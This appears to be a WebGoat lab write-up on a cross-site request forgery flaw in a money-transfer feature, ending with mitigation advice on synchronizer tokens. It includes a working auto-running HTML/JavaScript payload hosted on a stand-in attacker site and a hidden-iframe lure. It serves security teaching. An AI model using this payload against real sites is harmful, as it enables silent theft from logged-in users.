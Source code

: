 ## Vulnerability:

Money transferring mechanism on this site is vulnerable to CSRF attacks.

CSRF takes advantage of the inherent statelessness of the web to simulate user actions on one website (the target site) from another website (the attacking site).

## Exploitation:

Actual attack would consist of 2 following steps:

1) Preparing malicious HTML/JavaScript site that performs silent money transfer & hosting it somewhere. For example: CSRF html file on attacker's server (http://attack.example.com/csrf.html):

```
<html>
<script>

function sendMeMoney() {
var accountNo = 123;
var balance = 999;
var url = 'http://webgoat.hacking-lab.com/attack?Screen=68&menu=400&from=ajax&newAccount='+ accountNo+ '&amount=' + balance +'&confirm=Transferring';
if (typeof XMLHttpRequest != 'undefined') {
req = new XMLHttpRequest();
} else if (window.ActiveXObject) {
req = new ActiveXObject('Microsoft.XMLHTTP');
}
req.open('GET', url, true);
req.send(null);
}

</script>
<body onload='sendMeMoney();'>

</body>
</html>
```

This site will automatically (when loaded) transfer 999 to attacker's account number (123)


2) Enticing owner of the bank account (social engineering, phising, etc.) to visit site which has reference to csrf.html (for example: <iframe width=”0” height=”0” src=”http://attack.example.com/csrf.html”>) while logged in to his bank account. This would result in silent transfer of 999$ to attacker's bank account (123).

## Mitigation:

Classical defense against CRSF is using synchronizer token pattern (
http://www.corej2eepatterns.com/Design/PresoDesign.htm). Implementations of which exists for Java (https://www.owasp.org/index.php/Category:OWASP_CSRFGuard_Project) and PHP
(https://www.owasp.org/index.php/CSRFProtector_Project) applications.
